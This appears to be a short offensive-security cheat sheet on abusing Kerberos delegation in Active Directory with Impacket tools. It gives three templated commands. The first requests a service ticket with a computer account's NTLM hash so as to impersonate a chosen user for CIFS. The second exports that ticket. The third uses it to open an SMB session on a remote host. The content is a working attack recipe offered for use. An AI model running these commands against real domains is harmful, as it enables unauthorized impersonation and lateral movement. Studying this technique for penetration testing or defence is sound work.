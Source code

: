 ### Source
https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/getST.py  

### Create service ticket using computer account and delegate ticket to impersonate user
```
impacket-getST -self -impersonate "<targetUser>" -altservice "cifs/<fqdnComputer>" -dc-ip <domainController> '<domain>/<computerAccount$>' -hashes :<ntlmHash>
```

### Export ticket
```
export KRB5CCNAME=<impersonateUser>.ccache
```

### Use ticket
```
impacket-smbclient -k -no-pass <fqdnRhost> -dc-ip <domainController>
```


